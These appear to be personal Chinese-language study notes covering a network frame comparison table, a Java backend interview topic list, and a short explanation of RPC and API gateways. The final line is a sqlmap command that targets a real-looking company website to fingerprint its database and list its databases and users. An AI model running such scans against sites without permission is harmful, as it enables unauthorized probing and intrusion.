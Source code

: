 
|   字段   |        帧1         |        帧2         |
| :----: | :---------------: | :---------------: |
|   协议   |       HTTP        |        TCP        |
| 目的MAC  | 90:23:b4:69:d8:02 | 1c:69:7a:54:6d:e6 |
| 源MAC地址 | 1c:69:7a:54:6d:e6 | 90:23:b4:69:d8:02 |
|   类型   |       IPv4        |       IPv4        |
|  帧总长   |     780 bytes     |    1514 bytes     |

---

- nginx 鉴权
- ResponseEntity

- 面试
	- jvm
	- 多线程
	- 锁
	- 并发
- netty（不是很必要）
- **linux**
- **设计模式**
- **微服务**
- **消息队列**
	- rabbitMQ
		- 生产消费模型
		- 交换机模型
		- 死信队列
		- 延迟队列
		- 消息持久化
		- Java 操作
		- 集群搭建
- **redis**
- **nginx**
- 并发编程
- 分布式
- Junit 单元测试
- Apache utils
- easy excel
- hutool
- Mybatis Plus

通过<u> RPC 技术</u>【一种进程间的通信方式，它实现了轻松地允许一个进程调用另一个进程的服务】与微服务之间的远程调用，以及 <u>API 网关</u>【一种设计风格和架构原则，用于创建可伸缩、轻量级、可维护和可扩展的网络服务，它承接http请求，调用RPC服务，并负责对外部请求的协议转换、参数校验、鉴权、切量、熔断、限流、监控、风控等各类共性的通用服务】作为统一的入口和管理中心，来实现对MVC架构的替代


```bash
python sqlmap.py -u "https://www.bo-re-tech.cn/cn/index.html" -f --banner --dbs -\
-users
```


